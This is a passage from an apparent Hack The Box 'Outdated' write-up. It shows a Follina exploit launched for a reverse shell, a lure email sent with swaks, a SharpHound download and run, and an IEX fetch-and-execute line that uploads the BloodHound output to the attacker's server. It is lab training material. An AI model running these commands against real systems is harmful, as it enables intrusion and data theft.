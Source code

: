 VULN

To exploit it we have to clone the repository, start exploit script and send a message to itsupport. Then, we should get a reverse-shell connection.

```zsh
git clone https://github.com/JohnHammond/msdt-follina
cd msdt-follina
python3 follina.py --port 80 -i tun0 -r 4444
```

```zsh
swaks --to 'itsupport@outdated.htb' --from test@test.com --body 'http://<IP>/' --server mail.outdated.htb
```

![Got a btables user](/assets/hackthebox/outdated/got_btables_user.png)

And we got it. But there is no user flag in btables user's Desktop, so we need to get another user.

## Shadow credentials attack

It is an AD domain, so it is useful to upload a [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html) tool on the machine and enumerate `Access Control Lists` (ACLs) in the domain. I switched to powershell and used it's `Invoke-WebRequest` (iwr) cmdlet to get files on the machine.

```powershell
iwr -Uri http://<IP>:<PORT>/SharpHound.exe -OutFile SharpHound.exe
./SharpHound.exe -c All
```

To download files from the machine I'm going to use [uploadserver](https://pypi.org/project/uploadserver/) Python's library and a [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) powershell script.

```zsh
python3 -m uploadserver 8080
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File 20221027142207_BloodHound.zip
```
